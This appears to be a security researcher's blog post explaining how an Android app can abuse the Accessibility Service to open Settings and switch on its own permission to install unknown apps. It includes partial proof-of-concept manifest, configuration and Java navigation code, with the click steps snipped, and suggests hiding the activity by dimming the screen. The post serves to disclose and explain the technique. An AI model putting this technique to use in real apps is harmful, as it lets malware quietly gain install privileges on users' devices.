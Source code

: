 ## About Android security

### [~$ cd ..](../)

### ~$ cat How_an_Android_app_could_escalate_its_privileges.txt

#### About Accessibility Service

A few months ago, I heard about the malware Shedun, abusing the Accessibility Service of Android in order to do the bad things malwares do. In my opinion,
it's as simple as it's clever. As the documentation says:

>Accessibility services **should** only be used to assist users with disabilities in using Android devices
>and apps. They run in the background and receive callbacks by the system when AccessibilityEvents are fired. Such events denote some state transition in
>the user interface, for example, the focus has changed, a button has been clicked, etc. Such a service can optionally request the capability for querying
>the content of the active window. Development of an accessibility service requires extending this class and implementing its abstract methods."

In other words, it's a kind of component being put between the application and the user. Is it a good thing ? On one hand, yes, it is. AS makes the app more usable, and as we can read in the doc:
_Note: Although it's beneficial to add accessibility features in your app, you should use them only for the purpose of helping users with disabilities interact with your app._

On the other hand, as we can easily imagine, there will be some problems in case of misuse ... Indeed, a malicious application implementing this service could then "capture" the screen before display and interact with.

Actually, it could be harmless (or at least to a lesser extent), if the service was not able to interact with other applications. Imagine how dangerous an application upgrading its privileges could be... 

Does it seem so unrealistic ? Let's take a close look ...

#### Setting up an Accessibility Service

To create an Accessibility Service an application has to register it in the Manifest.xml, for example

> ```xml
> <service android:name=".services.CustomAccessibilityService"
>	android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
>	<intent-filter>
>	<action android:name="android.accessibilityservice.AccessibilityService"/>
>	</intent-filter>
>	<meta-data android:name="android.accessibilityservice"
>		android:resource="@xml/accessibility_config"/>
> </service>
> ```

The configuration could be done in Java, but some parameters (the most interesting ones actually) can only be set using XML:

> ```xml
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:accessibilityEventTypes="typeWindowContentChanged"
>	android:packageNames="com.android.settings, xyz.noname.spyapp"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"/>
> ```

We can see in the snippet just above three interesting things:
* the service will be called each time the content of the window changes
* two applications will be concerned: mine and Settings
* the service is allowed to get the content of the current window

#### Java part

It's then time to code the class `CustomAccessibilityService`! The class has to extend `AccessibilityService`:

> ```java
>public class CustomAccessibilityService extends AccessibilityService {
>	@Override
>	public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	}
>
>	@Override
>	public void onInterrupt() {
>	}
>}
> ```

The routine `onAccessibilityEvent` is the most important here, because it's the one which will allow the developer to catch all events.
In my application I have to make the difference between events coming from my application, and those coming from Settings.
The principle of the application is quite simple:
* check if my app has privileges. If not, launch the app Settings
* reach the panel where my app will toggle the right switch
* go back to my app

_Since it's only a PoC, the code is quite dirty and will probably not work on another device. The one I used on the emulator is a Nexus 5X_

The most difficult part is to browse through the settings and find the right page. To do this, I decided to use a stack containing keywords, and creating a kind
of "path" for my service. Each time the top of the stack is found on a widget, a click is programmatically done. 

Then, since events coming from my application will appear at the beginning, I set up my stack at this moment. For events coming from Settings, a loop is used to follow
the right path.

> ```java
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	switch (accessibilityEvent.getPackageName().toString()){
>		case BuildConfig.APPLICATION_ID:
>			if (stack == null){
>				stack = new Stack<>();
>			}
>			else if (stack.size() != 5){
>				stack.push("spyapp");
>				stack.push("unknown");
>				stack.push("special");
>				stack.push("advanced");
>				stack.push("app");
>			}
>			break;
>		case Constants.PACKAGE_SETTINGS:
>			AccessibilityNodeInfo info = accessibilityEvent.getSource();
>			if (info != null && this.stack != null) {
>				for (int i = 0; i < info.getChildCount(); i++) {
>					lookForPermissionsPanel(info.getChild(i));
>				}
>			}
>		break;
>	}
>}
> ```

Then, the job is done by the routine `lookForPermissionsPanel` which recursively scans the view, and tries to find the string on the top of the stack:

> ```java
>private boolean lookForPermissionsPanel(AccessibilityNodeInfo info) {
>	if (info == null)
>		return false;
>	for (int c = 0; c < info.getChildCount(); c++){
>		if (lookForPermissionsPanel(info.getChild(c))) {
>			return true;
>		}
>	}
>	if (info.getText() != null){
>		String text = info.getText().toString().toLowerCase();
>		if (!stack.empty() && (text.contains(stack.peek()) || text.equalsIgnoreCase(stack.peek()))){
>			stack.pop();
>			/**
>			 * <snipped>
>			 * here we deal with clickable widgets. To force the click, we use performAction(AccessibilityNodeInfo.ACTION_CLICK); on the node
>			 * or on its parent. 
>			 * </snipped>
>			 **/
>		}
>		else{
>			/**
>			 * <snipped>
>			 * the stack is empty and we have to deal with the final toggle button, and to close Settings
>			 * </snipped>
>			 **/
>		}
>	}
>	return false;
>}
> ```

_The routine returns true when a widgets has been clicked_

And finally, in the the main activity, we only have to launch Settings if our app doesn't have the desired privileges:
> ```java
>@Override
>protected void onCreate(@Nullable Bundle savedInstanceState) {
>	super.onCreate(savedInstanceState);
>	LinearLayout layout = (LinearLayout) LinearLayout.inflate(this, R.layout.activity_main, null);
>	TextView text = layout.findViewById(R.id.text);
>	text.setText(!getPackageManager().canRequestPackageInstalls() ? "Cannot install unknown apps" : "Allowed to install unknown apps");
>	if (!getPackageManager().canRequestPackageInstalls() && isAccessibilitySettingsOn() && !Util.hasPermission(Manifest.permission.REQUEST_INSTALL_PACKAGES, this)) {
>		Intent intent = context.getPackageManager().getLaunchIntentForPackage(Constants.PACKAGE_SETTINGS);
>		if (intent != null) {
>			intent.addCategory(Intent.CATEGORY_LAUNCHER);
>			startActivity(intent);
>		}
>	}
>	setContentView(layout);
>}
> ```

Where `hasPermission` is a routine returning true if the app has a permission, and `isAccessibilitySettingsOn` is another routine checking if our app is allowed to
use the accessibility service (inspired by [this solution](https://stackoverflow.com/questions/5081145/android-how-do-you-check-if-a-particular-accessibilityservice-is-enabled)

#### So what ?

We might think that it's not terrible since the user will see my app do its malicious job, and react quickly. It's true, but I think about 2 things:
* imagine that the malicious app is designed to do an unrecoverable thing. If the app is fast enough, the damage will be done
* there are maybe some tricks to hide the malicious activity. Let's say, set the brightness to 0 (even if it requires the permission WRITE_SETTINGS. Why not, social engineering is often better than expected)

here is a video showing the app running. As you can see, there is no permission at the beginning, and the app will escalate its privileges by browsing through Settings (the pointer doesn't appear at this moment):

[![video_poc](video.png)](https://youtu.be/7SMHSPEBcAw)
